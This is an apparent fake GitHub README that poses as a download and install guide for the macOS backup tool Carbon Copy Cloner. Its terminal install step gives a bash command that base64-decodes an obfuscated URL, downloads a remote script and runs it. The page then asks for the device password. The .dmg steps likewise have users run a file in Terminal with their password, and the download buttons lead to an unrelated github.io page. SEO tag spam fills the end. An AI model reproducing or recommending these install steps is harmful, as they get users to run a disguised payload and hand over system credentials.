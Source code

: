 # 🛡️ Carbon Copy Cloner — Trusted Backup & Cloning for macOS

**Carbon Copy Cloner** (CCC) is a powerful and reliable macOS utility developed by Bombich Software that allows users to create bootable backups, clone entire drives, and automate backup schedules. Whether you're upgrading your Mac's storage or preparing for disaster recovery, CCC ensures your data is safe, accessible, and restorable in minutes.

---

## ✅ Download Carbon Copy Cloner for macOS  
[![Download Carbon Copy Cloner](https://img.shields.io/badge/Download-Carbon_Copy_Cloner-green)](https://shuziktobehuman.github.io/huja/Carbon)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Carbon Copy Cloner?

Carbon Copy Cloner is a macOS backup and cloning app that offers fast, incremental backups and full system duplication. Unlike Time Machine, CCC creates bootable backups you can use to start your Mac instantly. It’s a top choice for tech-savvy users, IT professionals, and anyone serious about data protection and system migration.

---

## ✨ Features

- 💽 Create fully bootable backups of your Mac's system drive  
- 🔁 Schedule automatic and incremental backups with Smart Update  
- 📂 Clone internal or external drives with file-level precision  
- 🧮 Filter files and folders for custom backup configurations  
- 🚀 Fast performance with advanced snapshot support on APFS volumes  
- 🧠 Visual task editor for intuitive setup and monitoring  
- 🔒 Supports encrypted backups and secure storage  
- 📦 Backup to network volumes or other Macs  
- 💡 Easy migration from old Macs or drives  
- 🧲 Fully compatible with Apple Silicon (M1/M2/M3) and macOS Sonoma  

---

## 💡 Why Use Carbon Copy Cloner?

- 🔐 Peace of mind with automatic, restorable backups  
- 🧰 Ideal for macOS upgrades, drive replacements, or disk repairs  
- ⚡ Faster and more flexible than Time Machine  
- 🧑‍💻 Trusted by IT professionals, administrators, and advanced users  
- ✅ Maintain multiple backup routines with smart automation tools  

---

[![Download Carbon Copy Cloner](https://img.shields.io/badge/Download-Carbon_Copy_Cloner-green)](https://shuziktobehuman.github.io/huja/Carbon)

---



## 🖼 Preview

![Carbon Copy Cloner Screenshot 1](https://bombich.com/img/site/hero-narrow.jpg)  
![Carbon Copy Cloner Screenshot 2](https://bombich.com/img/icons/filter.jpg)

---

## 📌 Tags

carbon copy cloner, carbon copy cloner mac, carbon clone mac, carbon copy cloner app,  
carbon copy cloner black friday, carbon copy for mac, carboncloner, cc cloner mac,  
bombich software, carbon copy cloner download, carbon copy cloner 6, carbon copy cloner software,  
bombich carbon copy cloner, carbon cloner download, carbon cloner mac free, carbon copy cloner 2,  
carbon copy cloner 3, carbon copy cloner 4, carbon copy cloner 5, carbon copy cloner backup,  
carbon copy cloner cost, carbon copy cloner discount, carbon copy cloner free, carbon copy cloner full,  
carbon copy cloner m1, carbon copy cloner mac free, carbon copy cloner osx, carbon copy cloner price,  
ccc cloner, carbon copy cloner sale, cccloner, copycloner


